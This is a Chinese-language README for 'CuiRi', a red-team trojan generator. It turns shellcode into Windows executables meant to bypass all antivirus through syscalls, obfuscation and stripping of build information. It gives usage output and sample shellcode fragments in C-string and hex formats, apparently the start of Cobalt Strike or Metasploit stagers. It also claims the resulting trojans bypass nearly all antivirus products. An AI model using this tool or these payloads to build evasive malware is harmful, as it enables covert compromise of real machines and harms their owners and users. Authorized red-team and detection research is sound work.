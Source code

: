 # 摧日：CuiRi 红队专用免杀木马生成工具
![Author](https://img.shields.io/badge/作者-Dubh3-green)  ![language](https://img.shields.io/badge/开发语言-Golang-green) ![version](https://img.shields.io/badge/版本-1.0-brightgreen)![开放协议](https://img.shields.io/badge/%E5%BC%80%E6%94%BE%E5%8D%8F%E8%AE%AE-Apache%202.0-brightgreen.svg)

### 0x01 简介：

```
   ____   __    __    _____      ______      _____  
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _) 
 / /     ( (    ) )    | |       ) (__) )     | |   
( (       ) )  ( (     | |      (    __/      | |   
( (      ( (    ) )    | |       ) \ \  _     | |   
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__ 
  \____)  \______/   /_____(     )_) \__/   /_____( 

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马
```

CuiRi 是一款红队专用免杀木马生成器，该工具可以通过红队人员提供的一段 shellcode 快速生成一个绕过所有杀软的可执行木马。

**特点**

* 1.基于 Syscall 进行免杀，且随机混淆，可过几乎所有杀软
* 2.内置 go-strip 对 Go 生成的木马进行编译信息抹除与程序信息混淆
* 3.工具本体只有 1 个 exe，搭配 Go 环境即可直接使用

感谢 go-strip 作者 [@boy-hack](https://github.com/boy-hack "@boy-hack")

### 0x02 使用：

从 [release](https://github.com/NyDubh3/CuiRi/releases/tag/v1.0 "release") 中下载二进制文件，并且在系统上安装 Go 语言环境，然后将 shellcode 保存到1个txt文件中，即可使用本工具生成免杀马。

```bash
   ____   __    __    _____      ______      _____
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _)
 / /     ( (    ) )    | |       ) (__) )     | |
( (       ) )  ( (     | |      (    __/      | |
( (      ( (    ) )    | |       ) \ \  _     | |
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__
  \____)  \______/   /_____(     )_) \__/   /_____(

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马

警告：
1.本工具仅用于企业内部测试，请勿用于任何非法犯罪活动，否则后果自负
2.本工具需要Go语言环境，且使用时需要关闭杀软
https://github.com/NyDubh3/CuiRi   Author:Dubh3

[INFO] Current Version: 1.0
Usage of CuiRi.exe:
  -f string
        通过shellcode生成免杀马
  -manual
        查看shellcode生成方法
```

CuiRi 支持的 shellcode 格式分为以下两种：

**1.C语言字符串格式 shellcode：**

```bash
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x51\x65\x48\x8b\x52\x60\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
```

**2.纯十六进制数值格式 shellcode:**

注意：如果是从 Cobalt Strike 中生成的 bin 文件，请单独将 bin 里的十六进制复制保存到一个 txt 文件中。

```bash
fce8 8900 0000 6089 e531 d264 8b52 308b
520c 8b52 148b 7228 0fb7 4a26 31ff 31c0
ac3c 617c 022c 20c1 cf0d 01c7 e2f0 5257
8b52 108b 423c 01d0 8b40 7885 c074 4a01
d050 8b48 188b 5820 01d3 e33c 498b 348b
01d6 31ff 31c0 acc1 cf0d 01c7 38e0 75f4
037d f83b 7d24 75e2 588b 5824 01d3 668b
```

### 0x03 演示：

**(1) 生成 shellcode**

![-w1325](images/1.gen_shellcode.jpg)

**(2) 生成免杀马**

![-w1325](images/2.gen_trojan.jpg)

**(3) 免杀效果**

![-w1325](images/3.power_1.jpg)

![-w1325](images/3.power_2.jpg)
